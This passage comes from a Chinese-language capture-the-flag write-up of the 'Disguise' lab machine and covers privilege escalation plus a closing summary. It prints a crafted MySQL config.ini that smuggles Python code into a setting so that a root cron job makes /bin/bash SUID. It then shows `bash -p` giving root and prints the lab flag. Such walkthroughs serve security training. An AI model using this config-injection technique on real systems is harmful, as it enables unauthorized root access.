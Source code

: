 查了一下 `mysql-connector-python` 的 `read_default_file`，发现存在一个可以通过配置文件执行任意代码的漏洞例如 CVE-2023-22084。信息收集的终点是wx公众号（滑稽）。
![image-20250516191958461](https://7r1UMPH.top/image/20250516191958461.webp)

构造恶意的 `config.ini`：

```ini
[client]
user = dark_db_admin
password = Str0ngPassw0d1***
host = localhost
database = dark_shop
port = int(3306)
allow_local_infile=__import__('os').system('chmod u+s /bin/bash')
```

这个 `allow_local_infile` 配置项（或其他可利用的配置项）会被 `mysql.connector.connect` 解析并执行后面的Python代码，从而给 `/bin/bash` 加上SUID权限。

等待cron任务执行 (最多1分钟)。可以用 `pspy64` 监控。

```bash
# pspy64 输出中会看到
2025/05/16 07:19:01 CMD: UID=0     PID=16589  | sh -c chmod u+s /bin/bash 
```

检查 `/bin/bash` 权限。

```bash
darksoul@disguise:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

成功加上SUID权限！执行 `bash -p` 获取root权限。

```bash
darksoul@disguise:~$ bash -p
bash-5.0# id
uid=1000(darksoul) gid=1000(darksoul) euid=0(root) groups=1000(darksoul)
bash-5.0# cat /root/root.txt 
#Congratulations!!!
hmv{CVE-2025-21548}
```

成功获取root权限并读取 `/root/root.txt` 中的flag: `hmv{CVE-2025-21548}`。

### 八、总结

本次Disguise靶机的渗透过程涉及了Web应用层面的信息收集、漏洞扫描、子域名爆破，以及针对ECB加密模式下Cookie的巧妙伪造。后续通过对系统内部文件和进程的分析，发现了数据库凭证泄露和cron定时任务的配置不当，最终结合Python库的特性实现了权限提升至root。整个过程环环相扣，充分展现了信息收集和漏洞利用的重要性。